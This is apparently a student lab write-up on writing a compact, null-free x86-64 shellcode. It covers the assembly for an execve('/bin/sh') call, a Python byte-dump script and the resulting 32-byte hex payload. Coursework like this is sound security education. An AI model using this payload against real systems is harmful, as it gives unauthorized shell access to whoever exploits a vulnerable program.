 # Shellcode Creation (Golf)

## Assembly Code:

```
.global _start
_start:
    xor %rsi, %rsi
    xor %rdx, %rdx
    mov $0x1168732F6E69622F, %rbx
    shl $0x08, %rbx
    shr $0x08, %rbx
    push %rbx
    mov %rsp, %rdi
    mov $0x3B, %al
    syscall

```

### Steps:

- Set args and env (represented by register `rsi` and `rdx`) to null.
- Insert the hex representation of pathname `\bin\sh` into `rbx`.
- Use `shl` and `shr` to get rid of last 8 bites (why? explanation given later in 'Removing NULLs' section).
- Push `rbx` to stack.
- Move stack pointer to `rdi` to pass the arguments (such as, pathname as `\bin\sh`) to function.
- Move `0x3b` to `al` register which represents execve(2).
- Finally, execute `syscall`.

## ASCII Represntation of Bytes:

### Code

```
infile_path = "/home/csnmsu/Downloads/ShellCode Assignment/shellcode"
output = ""
size = 0

with open(infile_path, "rb") as f:
	while (byte := f.read(1)):
    	byte = byte.hex()
    	output += str(byte) + " "
    	size+=1

print("Shellcode is " + str(size) + " bytes long.")
print("They are: " + output)

```

### Output

```
Shellcode is 32 bytes long.
They are: 48 31 f6 48 31 d2 48 bb 2f 62 69 6e 2f 73 68 11 48 c1 e3 08 48 c1 eb 08 53 48 89 e7 b0 3b 0f 05
```

## Removing NULLs

- Use `al` register for storing 0x3b to avoid extra null bytes caused by a bigger register.
- While inserting null terminator for `\bin\sh`, put any other value (except null or 00) and then do shift-left and shift-right by `0x08`. This operation gives us our desired null terminator without injecting null value to the shellcode. [1]
- `xor` sometimes may cause null values, but this time looks like we are safe. Alternatively, we can use `sub %rsi, %rsi` to set `rsi` to null.  

[1] https://null-byte.wonderhowto.com/how-to/writing-64-bit-shellcode-part-2-removing-null-bytes-0161591/


